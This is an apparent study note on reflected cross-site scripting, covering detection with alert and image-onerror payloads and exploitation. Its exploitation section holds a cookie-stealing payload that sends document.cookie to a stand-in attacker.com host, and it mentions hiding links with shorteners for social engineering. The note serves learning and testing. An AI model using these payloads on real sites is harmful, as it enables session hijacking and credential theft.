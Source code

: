 # 04.reflected-xss

04/05/25

## Recall

- What is Reflected XSS?
- What can you do with a reflected XSS?
- What is a XSS payload?
- How can social engineering help exploit reflected XSS?

## Notes

### What it is

**Reflected XSS (Cross-Site Scripting)** is a type of script injection attack where input from the user is immediately reflected by the web application without proper sanitization or encoding.

A **reflected XSS** attack can lead to:

- Credential theft (e.g., session hijacking via cookies)
- Redirection to malicious pages
- User impersonation through session data compromise

### How to identify it

To detect a **reflected XSS** vulnerability, try injecting payloads into various input points of the application, especially in **search fields** or **search** **URL parameters**.

Example:

```bash
http://target.com/index.php?search=<script>alert('something')</script>
```

If the application reflects and executes the script in the response:

```bash
<p>You searched for: <script>alert('something')</script></p>
```

…then the vulnerability is present

If the application blocks `<script>`, **HTML injection** may still be possible by using elements with executable attributes:

```bash
http://target.com/index.php?search=<img src=x.png onerror="alert('something')">
```

Which might be reflected as:

```bash
<p>You searched for: <img src=x.png onerror="alert('something')"></p>
```

### How to exploit it

Once confirmed, you can craft a malicious payload that performs a specific action and deliver the link to the target user.

Example payload to steal cookies:

```bash
https://target.com/index.php?search=<script>fetch(`http://attacker.com/steal-cookie?cookie=${document.cookie}`)</script>
```

When the victim clicks the link, their session data is sent to the attacker’s server, potentially allowing session impersonation.

Since **reflected XSS requires user interaction**, it often relies on **social engineering**. Attackers may disguise the payload using URL shorteners or obfuscation to hide the malicious code.

## Summary

Reflected XSS is characterized by the reflection of unsanitized user input directly in the HTTP response, allowing attackers to inject and execute arbitrary JavaScript in the victim’s browser. This occurs when the application takes a parameter from the URL or a form and includes it in the page output without proper encoding or validation. Since the payload is not stored and depends on the victim clicking a crafted link, the attack often relies on social engineering. Once executed, it can lead to session hijacking, credential theft, or redirection to malicious websites.